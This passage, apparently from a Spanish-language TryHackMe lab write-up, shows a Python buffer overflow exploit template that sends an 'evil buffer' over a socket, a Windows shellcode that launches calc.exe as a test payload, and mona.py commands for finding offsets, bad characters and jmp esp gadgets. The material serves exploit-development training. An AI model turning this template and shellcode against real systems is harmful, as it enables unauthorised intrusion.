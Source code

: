 ```
#shellcode_calc = '\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2\x52\xff\xd0'

#badchars 

# Dirección de Retorno(retn)

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Tenemos apuntada la shellcode de una calculadora para cuando acabemos con el exploit, ponerlo a prueba antes de lanzarlo contra la máquina de Tryhackme.

Os dejo unos comandos que nos ayudarán a usar mona dentro del x32dgb

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
--------------------------------------------------------------------------------

mona.mona("pattern_create 2000")

mona.mona('bytearray -cpb "\\x00"')

mona.mona('compare -f C:\\logs\\oscp\\bytearray.bin -a ESP')

mona.mona("pattern_offset EIP")

mona.mona("jmp -r esp") 

mona.mona("jmp -r esp -m *") 
```
